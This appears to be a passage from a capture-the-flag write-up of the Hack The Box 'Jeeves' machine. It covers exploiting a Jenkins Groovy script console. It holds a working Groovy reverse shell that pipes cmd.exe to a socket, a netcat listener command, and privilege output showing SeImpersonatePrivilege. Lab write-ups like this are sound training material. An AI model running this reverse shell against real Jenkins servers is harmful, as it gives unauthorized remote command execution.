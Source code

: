 Jenkins, ey.  So let's poke around this for a bit.  And I'm able to find a script console.  Do some google searching cause it looks like the script console runs on Groovy script.  When I go look, I find something.

```
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

So with this, I just put the script into the console, fireup netcat to listen on this port and let's give it a go!!

`nc -nvlp 8044`

![whoami](\Images\HTB4Jeeves\pic3.png)

Looks like I'm this kohsuke user.  Quick directory move over to this user's desktop and grab the user flag.  Score there.  And then back to the original directory and let's work on getting elevated to root and getting that flag.

So run a quick alteration to the `whoami` command since thats what this lesson is about.  And wouldn't ya know it, the one we need is right there.

```
C:\Users\Administrator\.jenkins>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```
